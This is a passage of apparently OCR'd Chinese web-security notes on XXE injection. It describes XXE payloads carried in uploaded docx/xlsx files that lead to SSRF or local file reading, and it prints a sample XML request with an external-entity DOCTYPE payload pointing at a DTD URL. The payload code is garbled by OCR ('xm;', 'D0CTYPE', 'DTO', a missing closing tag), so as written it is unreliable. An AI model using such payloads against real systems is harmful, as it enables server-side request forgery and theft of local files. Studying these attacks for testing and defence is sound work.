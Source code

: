 它在任何场景下都只有一种  
Payload  
,产生的地方有  
docx  
文档或  
xlsx  
指的是把  
xxe  
语句写在这些文件里面去上传访问)文件导致  
SSRF  
或本地文件读取 现在的功能点直接支持插入  
XXE  
语句的非常少  
  
  
常见的XML传参的数据包  
  
```
<?xm; version="1.0" encoding="UTF-8"?>
<stockCheck>
<productid>
2
</productid>
<storeid>
1
</storeid>
<stockCheck>
```  
  
在语句之间插入  
Payload  
  
```
Payload:
<!D0CTYPE foo [<!ENTITY % xxe system "YOUR-DTO-URL"> %xxe;]>
-----------------------------------------
<?xm; version="1.0" encoding="UTF-8"?>
//  写入 dns.log 地址
<!D0CTYPE foo [<!ENTITY % xxe system "https:baidu.com"> %xxe;]>
<stockCheck>
<productid>
2
</productid>
<storeid>
1
</storeid>
<stockCheck
```  
### 上传压缩软链接任意读取文件  
  
  
[https://mp.weixin.qq.com/s/w5opQqZWyCR4-V7sl5sQpg](https://mp.weixin.qq.com/s?__biz=MzU2NDY2OTU4Nw==&mid=2247512198&idx=1&sn=0b6559baaff7db3e19b9789858a7ab81&scene=21#wechat_redirect)  
  
  
